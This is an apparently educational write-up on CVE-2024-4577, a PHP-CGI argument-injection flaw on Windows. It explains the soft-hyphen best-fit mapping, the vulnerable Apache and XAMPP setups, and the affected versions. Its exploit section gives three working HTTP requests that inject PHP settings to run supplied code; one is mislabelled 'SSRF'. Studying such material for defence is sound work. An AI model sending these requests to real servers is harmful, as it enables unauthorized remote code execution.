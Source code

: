 # PHP CGI RCE (CVE-2024-4577)

The PHP programming language, during its design, neglected the **Best-Fit character encoding** conversion feature inherent in Windows operating systems. This oversight allows unauthenticated attackers to bypass protections from the old CVE-2012-1823 by using specific character sequences to perform attacks such as parameter injection, subsequently executing arbitrary code on remote PHP servers.

**Scope of Impact** This vulnerability affects **all PHP versions installed on Windows operating systems.** For detailed information, refer to the table below:

* PHP 8.3 < 8.3.8
* PHP 8.2 < 8.2.20
* PHP 8.1 < 8.1.29

## How to Determine if You Are Vulnerable to Attack?&#x20;

For common setups involving the Apache HTTP Server combined with PHP, website administrators can confirm whether their server is vulnerable using the two methods listed in this article. Notably, Scenario Two is also the default setting during the installation of XAMPP for Windows, implying that all versions of XAMPP for Windows are inherently affected by this vulnerability.

At the time of writing this article, it has been verified that unauthorized attackers can execute arbitrary code on remote servers running Windows operating systems in the following language environments:

* Traditional Chinese (Code page 950)
* Simplified Chinese (Code page 936)
* Japanese (Code page 932)

For other Windows operating systems operating in English, Korean, and Western European languages, due to the extensive use of PHP and the inability to comprehensively list and rule out all exploitable scenarios, it is still recommended that users thoroughly inventory their assets, verify usage scenarios, and update PHP to the latest version to ensure maximum security.

## Evil Soft Hyphen

A soft hyphen (represented in HTML as `&shy;`) is an invisible character used to indicate an optional hyphenation point within a line of text. In web development, the soft hyphen is often used in long words or URLs to allow for automatic line breaks at the edge of the display without altering the actual content or meaning of the text.

## What is Common gateway Interface?

The Common Gateway Interface (CGI) is a standard protocol that defines how web servers can interact with **executable programs installed on a server that generate web pages dynamically**. Such programs are called CGI scripts; they can be written in any programming language, including PHP.

In the context of PHP and web development, **CGI acts as a bridge** between the PHP script and the web server, allowing the server to pass data, like form inputs or request details, to the PHP script. The PHP script processes this data and sends back the generated HTML (or other data types) to the server, which then sends it to the client's browser.

Example:

&#x20;querystrings are parsed and passed to the PHP interpreter on the command line - a request such as as [`http://host/cgi.php?foo=bar`](http://host/cgi.php?foo=bar\&ref=labs.watchtowr.com) might be executed as `php.exe cgi.php foo=bar`

## So what?

Here are two invocations of php.exe, one malicious and one benign. Can you spot the difference?

&#x20;![](../.gitbook/assets/image.png)

one of them is soft hyphen(0xAD) and one of them is hyphen(0x2D)

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

While they both appear the same to you and me, they have vastly different meanings to the OS.

## Best fit mapping

PHP will apply what’s known as a ‘best fit’ mapping, and helpfully assume that, when the user entered a soft hyphen, they actually **intended to type a **_**real**_** hyphen**, and interpret it as such. Herein lies our vulnerability - if we supply a CGI handler with a **soft hyphen (0xAD)**, the CGI handler won’t feel the need to escape it, and will pass it to PHP. **PHP, however, will interpret it as if it were a **_**real**_** hyphen,** which allows an attacker to sneak extra command line arguments, which begin with hyphens, into the PHP process.

## Scenario One: Setting PHP to run under CGI mode In the Apache Httpd configuration file

when HTTP requests are directed to the PHP-CGI executable using the Action directive, this setup is affected by the vulnerability. Common configurations include, but are not limited to:

```
AddHandler cgi-script .php
Action cgi-script "/cgi-bin/php-cgi.exe"
```

or

```
<FilesMatch "\.php$">
    SetHandler application/x-httpd-php-cgi
</FilesMatch>

Action application/x-httpd-php-cgi "/php-cgi/php-cgi.exe"
```

## Scenario Two: Exposing the PHP executable to the public (Default installation setting in XAMPP)

Even if PHP is not configured to run under CGI mode, simply exposing the PHP executable in the CGI directory also subjects it to this vulnerability. Common situations include, but are not limited to:

* Copying php.exe or php-cgi.exe to the /cgi-bin/ directory.
* Exposing the PHP installation directory externally through ScriptAlias, such as:

```
ScriptAlias /php-cgi/ "C:/xampp/php/"
```

## Different type of EXP

## EXP 1

SSRF

{% code overflow="wrap" %}
```
http://PhpVulnEnv/php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+-d+allow_url_include%3d1+-d+auto_prepend_file%3d"data:XCANWIN/XCANWIN;,PD9waHAgZGllKCJUZSIuInNUIik7Pz4g"
```
{% endcode %}

## EXP 2

```
POST /php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: PhpVulnEnv

<?php phpinfo();?>
```

## EXP 3

```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: PhpVulnEnv
REDIRECT-STATUS: XCANWIN

<?php phpinfo();?>
```

## Demo

{% file src="../.gitbook/assets/CVE Demo (2).mp4" %}
Demo Video
{% endfile %}

## Interview Question

**1) Why is XAMPP being infected the most in this CVE?**

**2) What is best fit mapping how it cause this Vulnerability?**

**3) Which setting you have to modify to fix this issue?**



## Reference

{% embed url="https://mp.weixin.qq.com/mp/wappoc_appmsgcaptcha?poc_token=HFj3amajFr1bUBstRri7lGhHA70Gus9G7sywHr1p&target_url=https%3A%2F%2Fmp.weixin.qq.com%2Fs%2F93TuxZ4AVqHXcnJw3M4hRg" %}

{% embed url="https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/" %}

{% embed url="https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability/" %}


